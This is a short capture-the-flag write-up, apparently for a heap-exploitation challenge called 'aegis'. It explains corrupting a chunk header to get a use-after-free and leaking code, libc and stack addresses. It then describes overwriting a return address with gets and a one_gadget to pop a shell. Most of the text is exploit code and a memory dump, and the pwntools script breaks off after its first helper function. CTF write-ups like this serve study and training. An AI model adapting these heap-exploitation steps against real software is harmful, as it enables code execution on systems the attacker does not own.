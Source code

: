 I found overwrite chunk header, we can UAF ID 0
```python
add(0x10,"F"*0x8,100)
add(0x10,"F"*0x8,100)
for i in xrange(0x8):
  update(0,"C"*(0x9+i),100)
secret(0xc047fff8004)

for i in xrange(0x8,0xd):
  update(0,"C"*(0x9+i),100)
update(0,"A"*0xe + p64(0xffff000000024141),0x023000001003ffff)
remove(0)
add(0x10,p64(0x602000000018),0)
```

ID 2 0x0000602000000010 buf_ptr
ID 0 0x0000602000000030 buf_ptr  but 0x602000000030 is ID 2 data buffer
```
0x602000000000: 0x02ffffff00000002      0x6480000120000010
0x602000000010: 0x0000602000000030      0x0000558ca42d8ab0
0x602000000020: 0x02ffffff00000002      0x0700000120000010
0x602000000030:[0x0000602000000018]     0xbe00000000000000
0x602000000040: 0x02ffffff00000002      0x0700000120000010
0x602000000050: 0x6446464646464646      0xbe00000000000000
0x602000000060: 0x02ffffff00000002      0x6480000120000010
0x602000000070: 0x0000602000000050      0x0000558ca42d8ab0
```


show ID 0 to leak code address

using update & show to achieve arbitrary read and write.
Leak libc => leak stack => overwrite read_until_nl_or_max return address to gets & one_gadget get shell

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '111.186.63.209'
port = 6666

binary = "./aegis"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def add(size, content, iid):
  r.recvuntil(": ")
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline(str(size))
  r.recvuntil(": ")
  r.send(content)
  r.recvuntil(": ")
  r.sendline(str(iid))
  pass

```